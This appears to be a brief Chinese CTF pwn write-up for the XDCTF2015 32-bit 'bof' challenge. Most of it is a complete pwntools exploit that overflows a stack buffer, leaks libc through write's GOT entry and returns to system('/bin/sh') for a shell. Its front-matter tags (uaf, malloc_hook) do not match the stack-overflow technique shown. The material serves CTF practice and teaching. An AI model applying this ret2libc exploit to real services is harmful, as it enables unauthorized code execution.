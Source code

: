 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

- `32`位泄露`了ibc`

 ![image-20240116183210088](../assets/img/old_imgs/image-20240116183210088.png)

![image-20240116183224238](../assets/img/old_imgs/image-20240116183224238.png)

1. `main`函数中输入
2. `vuln`函数中存在溢出漏洞

非常常规的泄露`libc`,直接上代码

```python
from pwn import *
elf = ELF('./bof')
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
io = process('./bof')
padding = b'A'*112
payload1 = padding+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(0x1)+p32(elf.got['write'])+p32(0x4)
io.sendlineafter(b'Welcome to XDCTF2015~!\n',payload1)

write_addr = u32(io.recv(4))
print('puts_addr->',hex(write_addr))

Liboffset = write_addr - Lib.sym['write']
sys_addr = Liboffset + Lib.sym['system']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))

payload2 = padding + p32(sys_addr)+p32(0x0)+p32(bin_sh_addr)
io.sendlineafter(b'Welcome to XDCTF2015~!\n',payload2)
io.interactive()
```

